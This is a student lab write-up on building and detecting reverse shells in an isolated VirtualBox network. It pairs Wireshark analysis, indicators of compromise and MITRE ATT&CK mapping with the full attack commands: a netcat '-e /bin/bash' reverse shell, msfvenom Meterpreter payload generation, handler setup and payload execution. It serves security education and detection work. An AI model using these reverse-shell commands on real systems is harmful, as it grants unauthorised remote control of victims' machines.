









# 📝 Reverse Shell Network Detection — Project Write-up

> **Project:** Reverse Shell Network Detection
> 

> **Course:** MSci Cyber Security — Year 1, Lab Project
> 

> **Tools:** VirtualBox · Kali Linux · Ubuntu Server · Netcat · Metasploit · Wireshark
> 

> 📖 **Read alongside:** [🛡️ Fundamentals] for theory
> 

---

# 🗺️ Lab Environment

## Network Architecture

The lab runs entirely on a single Windows host using VirtualBox. A host-only network (`192.168.102.x`) isolates all attack traffic within the machine — no traffic reaches the real home network at any point.

| Machine | Role | IP Address |
| --- | --- | --- |
| **Windows Host** | Gateway for host-only network | `192.168.102.1` |
| **Kali Linux VM** | Attacker · runs Netcat listener · Metasploit handler · Wireshark | `192.168.102.4` |
| **Ubuntu Server VM** | Victim · executes reverse shell payload · calls back to Kali | `192.168.102.3` |

```jsx
Ubuntu Server  (192.168.102.3)  ← VICTIM
  └── Executes payload (nc.traditional or shell.elf)
        └──▶ Initiates outbound TCP connection to Kali

Kali Linux  (192.168.102.4)  ← ATTACKER
  └── Netcat / Metasploit handler listening on port 4444 / 4445
        └──▶ Receives connection → shell session established

Wireshark  (running on Kali, capturing eth0)
  └── Records every packet of the reverse shell session
        └──▶ Display filter tcp.port == 4444 / 4445
              └──▶ Follow TCP Stream → session reconstructed
```

> The host-only network is critical for ethical containment. All reverse shell traffic stays within the Windows host machine. Running these payloads on a bridged or NAT network could send malicious traffic onto your real home network — potentially illegal under the Computer Misuse Act 1990 without explicit written permission from the system owner.
> 

---

### Figure 1 — Lab Environment IP Addresses

*Screenshot: IP address table confirming Windows Host (`192.168.102.1`), Kali Linux (`192.168.102.4`), and Ubuntu Server (`192.168.102.3`) on the host-only network*



---

# 🔧 Tool Installation & Setup

## Installing the Tools

All three tools were installed on Kali in a single command:

```bash
sudo apt update && sudo apt install metasploit-framework netcat-traditional wireshark -y
```

On Ubuntu, only Netcat was required:

```bash
sudo apt update && sudo apt install netcat-traditional -y
```

> **Why `netcat-traditional` specifically?** The default `netcat` package on modern Ubuntu is the OpenBSD version, which deliberately removes the `-e` flag — the flag that attaches a shell to a connection. Without `netcat-traditional`, reverse shell creation via Netcat is impossible.
> 

## Resolving the Binary Conflict on Ubuntu

Even after installing `netcat-traditional`, Ubuntu's alternatives system still pointed the `nc` shortcut to the OpenBSD binary. This was confirmed with:

```bash
ls -la /usr/bin/nc*
```

Output revealed three binaries present:

```jsx
/usr/bin/nc          → /etc/alternatives/nc  (points to OpenBSD by default)
/usr/bin/nc.openbsd  (no -e flag)
/usr/bin/nc.traditional  (has -e flag ✅)
```

The fix was to call the correct binary directly by full path rather than the `nc` shortcut:

```bash
nc.traditional <args>
```

## Configuring Wireshark

Wireshark was configured to allow packet capture without root by running:

```bash
sudo dpkg-reconfigure wireshark-common   # select Yes to non-superuser capture
sudo usermod -aG wireshark $USER          # add user to wireshark group
```

For this lab, `sudo wireshark` was used as an equivalent alternative.

---

### Figure 2 — Netcat Binary Conflict Resolved

*Screenshot: `ls -la /usr/bin/nc* `output on Ubuntu showing three binaries —` nc `pointing to alternatives,` nc.openbsd`, and` nc.traditional` — confirming the traditional version is present at full path*


---

# 🔁 Method 1 — Netcat Reverse Shell

## What Is a Netcat Reverse Shell?

Netcat's raw TCP mode with the `-e` flag allows a shell (`/bin/bash`) to be attached to a network connection. When the victim executes the command, their machine calls out to the attacker and hands over interactive command execution — entirely through a plain text, unencrypted TCP connection.

## Setting Up the Listener (Kali — Terminal 1)

Kali opened a listening port, waiting for the victim to call home:

```bash
nc -l -n -v -p 4444
```

| Flag | Purpose |
| --- | --- |
| `-l` | Listen mode — wait for an incoming connection |
| `-n` | No DNS lookups — use raw IP addresses only |
| `-v` | Verbose — display connection notification when victim connects |
| `-p 4444` | Listen on port 4444 |

Expected output:

```jsx
listening on [any] 4444 ...
```

## Executing the Payload (Ubuntu — Terminal 2)

From Ubuntu (accessed via SSH from Terminal 2), the reverse shell was triggered:

```bash
nc.traditional 192.168.102.4 4444 -e /bin/bash
```

| Argument | Purpose |
| --- | --- |
| `192.168.102.4` | Attacker's IP — where to call home |
| `4444` | Attacker's listening port |
| `-e /bin/bash` | Attach a bash shell to the connection — hands over command execution |

> **Why Ubuntu calls out to Kali — not the other way around:** A firewall protecting Ubuntu would block Kali connecting inward. By having Ubuntu initiate the outbound connection, the firewall sees normal outgoing traffic and waves it through. This is the core principle of a reverse shell.
> 

## Confirming Access (Kali — Terminal 1)

Immediately after Ubuntu executed the payload, Terminal 1 showed:

```jsx
connect to [192.168.102.4] from (UNKNOWN) [192.168.102.3] 57918
```

Commands were then run from Kali's terminal — executing on Ubuntu's system:

```bash
whoami     # → s3rvic
id         # → uid=1000(s3rvic) gid=1000(s3rvic) groups=1000(s3rvic),4(adm),24(cdrom),27(sudo)...
hostname   # → ubuntu-target
ip a       # → full network interface listing of Ubuntu
```

---

### Figure 3 — Netcat Listener Receiving Connection

*Screenshot: Terminal 1 on Kali showing `listening on [any] 4444 ...` followed by `connect to [192.168.102.4] from (UNKNOWN) [192.168.102.3] 57918` — connection established*



---

### Figure 4 — Shell Commands Executing on Ubuntu

*Screenshot: Terminal 1 on Kali showing `whoami` returning `s3rvic`, `id` returning full group memberships including `sudo` and `adm`, `hostname` returning `ubuntu-target`, and `ip a` returning Ubuntu's full network configuration — all executing on the victim machine from the attacker's terminal*



---

# 🦈 Wireshark Analysis — Netcat Session

## Capturing the Traffic

Wireshark was running on Kali capturing `eth0` throughout the session. To isolate the reverse shell traffic, the display filter was applied:

```
tcp.port == 4444
```

This reduced 7,157 total captured packets to **39 packets** — exactly the reverse shell session.

## What the Packets Reveal

| Indicator | Value observed | Significance |
| --- | --- | --- |
| Source IP | `192.168.102.3` (Ubuntu) | Victim initiating the outbound connection |
| Destination IP | `192.168.102.4` (Kali) | Attacker receiving the call-home |
| Destination port | `4444` | Non-standard port — immediate suspicion trigger |
| TCP flags | SYN → SYN-ACK → ACK → PSH → ACK | Full handshake followed by active data transfer |
| Connection duration | Minutes (persistent) | Interactive session — not a one-time request |

## Follow TCP Stream — Complete Session Visible

Right-clicking any packet → **Follow → TCP Stream** reconstructed the entire session:

- 🔴 **Red text** — attacker (Kali) commands typed
- 🔵 **Blue text** — victim (Ubuntu) responses returned

The session showed every command typed (`whoami`, `id`, `ip a`, `ls -la`) and every response in complete plain text. **Zero encryption. Fully readable.**

> This is the critical weakness of Netcat reverse shells. Every command and every response is visible to any analyst who captures the traffic. In a real incident, this packet capture would be a complete transcript of the attacker's actions.
> 

---

### Figure 5 — Wireshark Display Filter Applied

*Screenshot: Wireshark with `tcp.port == 4444` filter applied — 39 packets displayed from 7,157 total — showing SYN, SYN-ACK, ACK, and PSH packets between `192.168.102.3` and `192.168.102.4`*



---

### Figure 6 — Follow TCP Stream — Plain Text Session

*Screenshot: Wireshark Follow TCP Stream dialog showing the complete reverse shell session — red text showing attacker commands (`whoami`, `id`, `ip a`, `ls -la`) and blue text showing Ubuntu's responses — entire session readable in plain text*



---

# 🎯 Method 2 — Metasploit Meterpreter Reverse Shell

## What Is Meterpreter?

Meterpreter is an advanced Metasploit payload that addresses every weakness of a Netcat shell:

| Feature | Netcat Shell | Meterpreter Shell |
| --- | --- | --- |
| **Encryption** | None — plain text | TLS encrypted — unreadable in Wireshark |
| **Disk footprint** | Requires nc binary present | Runs entirely in memory — no file on disk after execution |
| **Capabilities** | Basic shell only | Built-in commands: `sysinfo`, `getuid`, `upload`, `download`, `webcam_snap` |
| **Wireshark visibility** | Every command readable | Encrypted binary — completely unreadable |
| **Real world use** | Rarely by serious attackers | Industry standard for post-exploitation |

## Stage 1 — Generate the Payload with msfvenom

A malicious Linux executable was created on Kali:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.102.4 LPORT=4445 -f elf -o /tmp/shell.elf
```

| Argument | Value | Purpose |
| --- | --- | --- |
| `-p` | `linux/x86/meterpreter/reverse_tcp` | Payload type — Linux x86 Meterpreter reverse TCP |
| `LHOST` | `192.168.102.4` | Attacker IP burned into the payload — where it calls home |
| `LPORT` | `4445` | Attacker port — kept separate from Netcat's 4444 |
| `-f elf` | — | Output as Linux ELF executable format |
| `-o` | `/tmp/shell.elf` | Save to `/tmp` — world-writable, no elevated privileges needed |

Output confirmed:

```jsx
Payload size: 123 bytes
Final size of elf file: 207 bytes
Saved as: /tmp/shell.elf
```

## Stage 2 — Configure the Metasploit Listener

Inside `msfconsole`, the handler was configured to receive the incoming connection:

```bash
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.102.4
set LPORT 4445
run
```

Output confirmed the handler was live:

```jsx
[*] Started reverse TCP handler on 192.168.102.4:4445
```

> **Why the payload and handler must match exactly:** The LHOST, LPORT, and payload type burned into `shell.elf` at generation time must match the handler configuration exactly. A mismatch results in a failed session — the TCP connection is established but the handler cannot parse the data arriving.
> 

## Stage 3 — Transfer and Execute the Payload

The payload was transferred from Kali to Ubuntu using SCP:

```bash
scp /tmp/shell.elf s3rvic@192.168.102.3:/tmp/shell.elf
```

On Ubuntu, the payload was made executable and run:

```bash
chmod +x /tmp/shell.elf
/tmp/shell.elf
```

> **Why `chmod +x` is required:** Linux does not allow files to execute without the execute permission bit set. This is a security feature — dropping a file to disk does not automatically make it runnable. Endpoint detection tools often monitor for `chmod` on files in `/tmp` as a detection signal.
> 

## Meterpreter Session Opened

Immediately after execution, msfconsole confirmed:

```jsx
[*] Sending stage (1062760 bytes) to 192.168.102.3
[*] Meterpreter session 1 opened (192.168.102.4:4445 → 192.168.102.3:48100)
meterpreter >
```

Session confirmed with built-in Meterpreter commands:

```bash
sysinfo    # → Computer: ubuntu-target | OS: Ubuntu 26.04 | Arch: x64
getuid     # → Server username: s3rvic
```

---

### Figure 7 — msfvenom Payload Generation

*Screenshot: msfvenom command output confirming `linux/x86/meterpreter/reverse_tcp` payload generated — payload size 123 bytes, ELF file 207 bytes, saved as `/tmp/shell.elf`*

---



### Figure 8 — Metasploit Handler Configured and Listening

*Screenshot: msfconsole showing `use exploit/multi/handler`, PAYLOAD, LHOST, LPORT all set — `run` command executed — `[*] Started reverse TCP handler on 192.168.102.4:4445`*



---

### Figure 9 — Meterpreter Session Opened

*Screenshot: msfconsole showing `[*] Sending stage (1062760 bytes) to 192.168.102.3 `followed by` [*] Meterpreter session 1 opened `—` meterpreter > `prompt active —` sysinfo `output showing` ubuntu-target`, Ubuntu OS, x64 architecture*




---

# 🦈 Wireshark Analysis — Meterpreter Session

## Capturing the Traffic

With Wireshark still capturing on `eth0`, the Meterpreter session traffic was isolated:

```
tcp.port == 4445
```

## The Critical Difference — Encryption

Following the TCP stream on port 4445 traffic revealed something fundamentally different from the Netcat session:

**The stream is completely unreadable.** Encrypted binary data — no commands visible, no responses visible, nothing a human analyst can read.


## What a Defender Can Still Detect

Encryption hides **content** — it does not hide **behaviour**. A defender with good network visibility can still identify this as suspicious:

- **Non-standard port** — port 4445 has no legitimate service assignment
- **Victim machine initiating outbound connection** — Ubuntu calling out to Kali
- **Large initial data transfer** — 1,062,760 bytes of stage sent immediately after connection (Meterpreter agent being loaded)
- **Persistent long-lived session** — stays open for minutes rather than completing and closing
- **Unknown process making network connection** — `/tmp/shell.elf` initiating a network connection is not normal behaviour

> **The fundamental detection lesson:** Even without reading a single decrypted byte, a SOC analyst with Wireshark, network flow data, or an EDR tool can still detect a Meterpreter session through these behavioural indicators. Encryption shifts the detection method — it does not eliminate detectability.
> 

---

### Figure 10 — Follow TCP Stream — Encrypted Session

*Screenshot: Wireshark Follow TCP Stream dialog for port 4445 — showing encrypted binary data, unreadable ASCII characters, no plain text commands visible — in stark contrast to the Netcat stream in Figure 6*



---

# 🔍 Detection Analysis

## Network Indicators of Compromise (IOCs)

Based on both sessions captured in Wireshark, the following IOCs were identified:

| IOC | Netcat Session | Meterpreter Session | Detectable? |
| --- | --- | --- | --- |
| **Non-standard port** | Port 4444 | Port 4445 | ✅ Both — visible in packet headers |
| **Victim initiating outbound** | Ubuntu → Kali | Ubuntu → Kali | ✅ Both — SYN from victim IP |
| **Persistent connection** | Minutes open | Minutes open | ✅ Both — long-lived TCP session |
| **Plain text commands** | Visible in stream | Encrypted | ✅ Netcat only |
| **Large stage transfer** | Not present | 1MB+ in first seconds | ✅ Meterpreter — by packet size |
| **Shell session pattern** | Small requests, larger responses | Encrypted bursts | ✅ Netcat clearly; Meterpreter by flow metadata |

## MITRE ATT&CK Mapping

| Field | Netcat Shell | Meterpreter Shell |
| --- | --- | --- |
| **Tactic** | Command and Control (TA0011) | Command and Control (TA0011) |
| **Technique** | T1059.004 — Unix Shell | T1059.004 — Unix Shell |
| **Sub-technique** | T1571 — Non-Standard Port | T1571 — Non-Standard Port |
| **Additional** | — | T1573 — Encrypted Channel |

> Both sessions map to **TA0011 — Command and Control**, which covers all techniques adversaries use to communicate with compromised systems. The Meterpreter session additionally maps to **T1573** due to its use of encryption to hide C2 traffic.
> 

---

# ✅ Summary

## Key Findings

| Finding | Detail |
| --- | --- |
| 🔴 Netcat reverse shell established | Ubuntu (`192.168.102.3`) called back to Kali (`192.168.102.4`) on port 4444 — full bash shell access confirmed via `whoami`, `id`, `hostname` |
| 🔴 Meterpreter session established | 207-byte ELF payload executed on Ubuntu — Meterpreter session opened on port 4445 — `sysinfo` and `getuid` confirmed full access |
| 🟡 Netcat fully visible in Wireshark | Follow TCP Stream on port 4444 revealed every command typed and every response returned — zero encryption |
| 🟡 Meterpreter encrypted but behaviorally detectable | TCP stream unreadable — but non-standard port, persistent connection, large stage transfer, and victim-initiated outbound all detectable without decryption |
| ✅ Both methods captured end-to-end | Wireshark captured the full lifecycle of both shells — from TCP handshake to session termination |
| ✅ Detection surface understood | Netcat detectable by content; Meterpreter detectable by behaviour — demonstrating why modern defence combines network and endpoint monitoring |

## Production Improvements

- 📋 What would change in a real environment?
    - **Use ports 80 or 443 for the reverse shell** — real attackers rarely use 4444 or 4445. Traffic on HTTP/HTTPS ports blends with normal web browsing and bypasses port-based firewall rules entirely. Detection must shift to behavioural analysis of *what* is on those ports, not just *which* ports are in use.
    - **Deploy a Network IDS alongside Wireshark** — tools like Suricata or Snort have pre-built signatures for Meterpreter's staging handshake pattern and common reverse shell traffic, even on standard ports. Manual Wireshark analysis does not scale to production traffic volumes.
    - **Enable endpoint detection (EDR)** — a good EDR tool monitors which processes initiate network connections. Seeing `/tmp/shell.elf` call out to an external IP is a high-confidence signal regardless of what port it uses or whether the traffic is encrypted.
    - **Monitor for `/tmp` execute events** — the combination of a file appearing in `/tmp` and immediately receiving `chmod +x` is a reliable indicator of payload staging that does not depend on network visibility at all.
    - **Use certificate inspection for HTTPS shells** — organisations that perform TLS inspection (breaking and re-signing certificates at the perimeter) can inspect encrypted C2 traffic. This is controversial due to privacy implications but is standard in many enterprise environments.
    - **Implement egress filtering** — most organisations filter inbound traffic carefully but apply almost no rules to outbound. Restricting which internal hosts can initiate outbound connections to arbitrary internet IPs (particularly on unusual ports) removes the attacker's ability to receive a reverse shell even if a payload executes successfully.

---
---
